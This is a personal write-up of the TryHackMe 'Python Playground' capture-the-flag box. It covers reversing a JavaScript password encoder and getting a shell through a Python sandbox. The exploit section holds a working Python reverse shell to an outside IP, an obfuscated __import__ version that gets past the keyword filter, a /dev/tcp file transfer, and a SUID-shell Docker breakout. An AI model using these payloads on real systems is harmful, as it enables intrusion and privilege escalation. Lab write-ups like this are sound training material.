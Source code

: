 # Python-Playground Helped-Through

Name: Python-Playground
Date: 6/5/2023 
Difficulty:  Hard
Goals:  
- Pythonic Expertise
- Requests library brain scarring needs to occur 
Learnt:
Beyond Root:
- Finish [[Racetrack-Bank-Helped-Through]] python script and another for this box

Need to some THM, but I also need to figure out a best in slot FTP server for CTFs (build and tear down) and one that is a most secure for just in case and for one of the Beyond Root challenges for [[Kotarak-Helped-Through]]. I decided that I have not done a Alh4zr3d stream in a week so I also need to improve my Python so I chose [Cthulhu Cthursday: TryHackMe's "GameBuzz" and "Python Playground"](https://www.youtube.com/watch?v=AqNKLu_y6H8). I also need to do some execise in the intervals. This Helped-Through is paired with [[GameBuzz-Helped-Through]]. 

Apparently these are malders. I here to learn to boulder the malders one day.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nmap found:
![](csabd.png)

![](supersecretpanel.png)



```js
function string_to_int_array(str) {
    const intArr = [];
    for (let i = 0; i < str.length; i++) {
        const charcode = str.charCodeAt(i);
        // This is not reversible as result of modulus and division 
        const partA = Math.floor(charcode / 26);
        const partB = charcode % 26;
        intArr.push(partA);
        intArr.push(partB);
    }
    return intArr;
}

function int_array_to_text(int_array) {
    let txt = '';
    for (let i = 0; i < int_array.length; i++) {
        txt += String.fromCharCode(97 + int_array[i]);
    }
    return txt;
}

```

Reversing attempt:
```js
hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'
tmp = int_array_to_text(hash)
tmp = string_to_int_array(tmp)
tmp = int_array_to_text(tmp)
const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))))
const tmp = string_to_int_array(int_array_to_text(string_to_int_array(int_array_to_text(hash))))
```

Python things learnt
```python
# Python chr() function takes integer argument and return the string representing a character at that code point. 
chr()
# The _ord()_ function returns an integer representing the Unicode character.
ord()
```

Walking through the reversing of the functions Alh4zr3d really shines. The only mistake was just multiplication of a variable when the control was a for loop.
```python
#!/usr/share/python3

def int_array_to_string(int_array):
    result = ""
    i = 0
    while i < len(int_array):
        char_code = int_array[i] * 26
        i += 1
        char = chr(char_code + int_array[i])
        result += char
        i += 1

    return result


def string_to_int_array(string):
    result = []
    for i in string:
        result.append(ord(i) - 97)
    return result


def main():
    hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
    print(int_array_to_string(string_to_int_array(int_array_to_string(string_to_int_array(hash)))))
    exit()

if __name__ == '__main__':
    main()
```
``

## Exploit

Super secret python playground.
![](athreattosecurity.png)


We will probably need to evade filting of a reverse shell
```python
import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
Needs to be changes - Sandboxes are not filters but function the same [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) - tried various keywords and builtins, but to no success

![](importmod.png)

![](open0.png)

Learning that simple obfuscation - Al pointed the way
```python
# Reverse the strings and return back to intended form with [::-1]
# base64 encoding
"so tropmi"[::-1]

socket = __import__("socket", globals=None, locals=None, fromlist=(), level=0)
os = __import__("os", globals=None, locals=None, fromlist=(), level=0)
pty = __import__("pty", globals=None, locals=None, fromlist=(), level=0)
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

![](rootinthedockercontainer.png)




## Docker Bre..ssh Connor Site remember... but PrivEsc

Docker enumeration
```bash
mount # Key 
```

![](dockerprocs.png)

Transfer Deepce.sh
```bash
# Use nc to serve the file
nc -lvnp 80 < deepce.sh
# Target machine
bash -c "cat < /dev/tcp/10.14.43.145/80 > /tmp/deepce.sh"
```

Annoyingly we could just ssh in a connor as we know it connors site...
![](roothasscripts.png)

![](weirdport.png)

![](weirdport.png)

```bash
mount # check if it is mounted into the host filesystem 
# If so and you are root in dockerenv
cp /bin/sh $mount_misconfiguration_dir
# Give the binary suid privileges
chmod u+s /bin/sh  
# And PrivEsc on the host after breakout.
```
  
![](privescthrutoroot.png)

## Beyond Root

      
